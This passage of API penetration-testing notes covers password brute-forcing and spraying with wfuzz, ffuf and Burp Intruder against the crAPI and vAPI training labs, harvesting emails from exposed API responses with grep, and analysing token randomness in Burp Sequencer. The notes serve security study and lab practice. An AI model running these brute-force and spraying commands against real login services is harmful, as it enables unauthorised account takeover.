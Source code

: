 #### Password Brute-Force Attacks

Burp Suite:

Utilized Intruder to brute force Username/Email and Password.

wfuzz:

```bash
# All usernames against all passwords
wfuzz -d '{"email":"admin@email.com","password":"FUZZ"}' -H 'Content-Type: application/json' -z file,/usr/share/wordlists/rockyou.txt -u http://crapi.apisec.ai/identity/api/auth/login --hc 500
ffuf -u http://127.0.0.1/vapi/api2/user/login -d "email=HFUZZ&password=WFUZZ" -H "Content-type: application/x-www-form-urlencoded" -mode clusterbomb -w emails.txt:HFUZZ -w passwords.txt:WFUZZ -fc 401
# Line by line e.g. first email against first password, second email against second password
ffuf -u http://127.0.0.1/vapi/api2/user/login -d "email=HFUZZ&password=WFUZZ" -H "Content-type: application/x-www-form-urlencoded" -mode pitchfork -w emails.txt:HFUZZ -w passwords.txt:WFUZZ -fc 401

```

#### Password Spraying

Long list of users with a short list of targeted passwords. Knowing the password policy such as login attempts and password complexity will help build out the password list.

Example finding user's emails via excessive data exposure vulnerability. Can copy the response from Postman and use grep to filter out just the emails:

```bash
grep -oe "[a-zA-Z0-9._]+@[a-zA-Z]+.[a-zA-Z]+" response.json > users.tmp
grep -oe "[a-zA-Z0-9._]+@[a-zA-Z]+.[a-zA-Z]+" response.json | sort -u > users.txt
```

Burp Suite:

Can use the Cluster bomb within intruder to select the email and password values.

wfuzz:

```bash
wfuzz -d '{"email":"FUZZ","password":"FUZ2Z"}' -H 'Content-Type: application/json' -z file,emails.txt -z file,passwords.txt -u http://crapi.apisec.ai/identity/api/auth/login --hc 500

```

Creating targeted password lists: [https://github.com/sc0tfree/mentalist](https://github.com/sc0tfree/mentalist), [https://github.com/Mebus/cupp](https://github.com/Mebus/cupp)

### API Token Attacks

#### Token Analysis

Example using crAPI API authentication request and proxy it over to Burp Suite.

1. Intercept login request and send to Sequencer
2. Select Configure next to Custom location.
   1. Highlight the whole token in between the quotes and Save.
3. Select Start live capture
   1. Will capture 20,000 tokens
4. When completed, select Analyze now if it doesn't start automatically
5. Review results looking at the complexity and randomness of them.
   1. Shows complex tokens can be predictable.
   2. Also check if the tokens are being generated sequentially
